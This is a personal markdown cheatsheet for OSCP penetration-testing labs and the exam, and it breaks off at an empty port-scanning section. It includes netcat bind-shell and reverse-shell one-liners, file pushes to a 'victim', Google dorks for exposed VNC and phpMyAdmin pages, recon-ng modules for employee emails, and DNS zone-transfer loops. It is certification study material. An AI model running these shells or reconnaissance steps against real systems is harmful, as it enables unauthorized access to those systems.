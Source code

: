 # OSCP
Cheatsheet for my OSCP labs / exam.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```

**Tcpdump**

Analyse traffic from file (.pcap etc.) + show data in hex and ASCII
```bash
tcpdump -nX -r filename.pcap
```

Analyse and filter traffic:
```bash
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap   # src filter
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap   # dest filter
tcpdump -n port 81 -r password_cracking_filtered.pcap                 # port filter
```


### ============================================================
### Passive Info Gathering
### ============================================================

**Google Hacking**

More with Google Hacking Database https://www.exploit-db.com/google-hacking-database/

```bash
site:"microsoft.com" -site:"www.microsoft.com"            # list subdomains of Microsoft.com
site:"microsoft.com" filetype:ppt "penetration testing"   # list .ppt files with term "penetration testing"
intitle:"VNC viewer for Java"                             # list pages with a open VNC access pages
inurl:"/control/userimage.html"                           # list pages which contain file "/control/userimage.html"
inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin # list pages with post-authenticated db admin page.
```

**Recon-ng**

Basic usage:
```bash
recon-ng                                # access recon-ng
use recon/path/to/module                # use module
set SOURCE uber.com                     # set source target
run                                     # run module
```

Some useful modules:
```bash
recon/domains-contacts/whois_pocs       # find employee names and email addresses
recon/domains-vulnerabilies/xssed       # find existing XSS vulnerabilities
recon/domains-hosts/google_site_web     # find subdomains via. Google search
```

### ============================================================
### Active Info Gathering
### ============================================================

**DNS Enumeration**

Forward DNS lookup:
```bash
for name in $(cat list.txt); do
    host $name.megacorp.com | grep 'has address' | cut -d" " -f1,4
done
```

Reverse DNS lookup:
```bash
for ip in $(seq 72 91); do
    host 38.100.193.$ip | grep 'megacorp' | cut -d" " -f1,5
done
```

Zone transfers: "database replication" between related DNS servers / copy the list of all dns names configured for one zone to a secondary DNS server
```bash
# For each nameserver of an input domain, perform a zone transfer
for server in $(host -t ns $1 | cut -d" " -f4); do
    host -l $1 server | grep 'has address'
done
```

**Port Scanning**

